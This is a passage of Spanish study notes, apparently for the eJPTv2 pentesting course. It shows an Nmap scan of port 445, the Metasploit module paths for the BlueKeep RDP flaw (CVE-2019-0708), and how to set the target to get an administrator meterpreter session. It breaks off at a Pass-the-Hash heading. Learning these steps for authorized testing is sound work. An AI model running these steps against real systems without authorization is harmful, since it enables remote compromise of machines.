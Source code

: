 Vamos a ver como explotar esta vulnerabilidad. Primero escaneamos con Nmap el puerto 445 de la máquina objetivo.

```bash
nmap -sV -p 445 -O <IP_target>
```

### BlueKeep (Windows)

Es una vulnerabilidad del protocolo RDP en Windows, que permite a los atacantes la ejecución remota de código y acceso al sistema. **CVE-2019-0708**. Los módulos de MSF para explotar esta vulnerabilidad son:

```bash
search BlueKeep
auxiliary/scanner/rdp/cve_2019_0708_bluekeep     # Nos dice si es vulnerable
exploit/windows/rdp/cve_2019_0708_bluekeep_rce   # Ejecución de código remoto
```

En el exploit, hay que especificar la versión del sistema operativo para que funcione correctamente. Para ver las versiones de windows que podemos utilizar:

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2053.png)

```bash
set target <Id>
```

Este exploit nos proporciona una sesión meterpreter con permisos de administrador. Hay que tener cuidado con los exploits de kernel, porque pueden bloquear el sistema y ocasionar una pérdida de datos.

### Ataques Pass-the-Hash
